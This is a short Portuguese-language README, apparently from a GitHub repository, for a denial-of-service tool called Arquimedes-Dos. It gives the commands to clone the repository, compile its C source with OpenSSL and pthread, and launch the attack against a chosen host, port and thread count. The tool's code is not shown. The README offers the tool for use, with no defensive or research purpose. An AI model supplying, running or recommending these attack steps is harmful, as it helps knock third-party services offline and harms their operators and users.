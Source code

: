 # Arquimedes-Dos

## Instalação:
git clone https://github.com/Dragonmodder7/Arquimedes-Dos.git
cd Arquimedes-Dos

## Compilar o código:
clang -o arquimedes Arquimedes-Dos.c -lssl -lcrypto -lpthread

## Rodando o DoS:
./arquimedes -I (exemplo.com) -p (Porta) -t (threads) 
